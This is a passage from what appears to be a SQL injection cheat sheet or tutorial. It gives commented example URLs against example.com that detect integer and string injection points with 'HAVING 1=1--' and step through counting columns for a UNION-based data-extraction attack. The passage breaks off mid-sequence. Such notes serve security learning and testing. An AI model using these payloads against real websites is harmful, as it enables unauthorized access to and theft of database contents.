             ```
            # given injection point
            http://example.com/page.asp?id=1
            # check to see if it is an integer type injection
            http://example.com/page.asp?id=1 HAVING 1=1--
            # you can check the error message you get back to see whether the type was
            # wrong (i.e. its not an Integer) or something else went wrong (which implies
            # type is correct)

            # given injection poing
            http://example.com/page.asp?id=xyz

            # checking to see if it is string injeciton point (note use of ')
            http://example.com/page.asp?id=xyz' having 1=1--
            # again the error message will tell you whether you have the type correct or not
            ```

        - union: great for data extraction

            ```
            # given an injection point of type Integer
            http://example.com/page.asp?id=1

            # now figure out how many columns you need to have in the union to match
            # the original query (keep going until you don't get an error anymore
            http://example.com/page.asp?id=1 UNION SELECT ALL 1--
            # error
            http://example.com/page.asp?id=1 UNION SELECT ALL 1,2--
            # error
            http://example.com/page.asp?id=1 UNION SELECT ALL 1,2,3--
            # no error
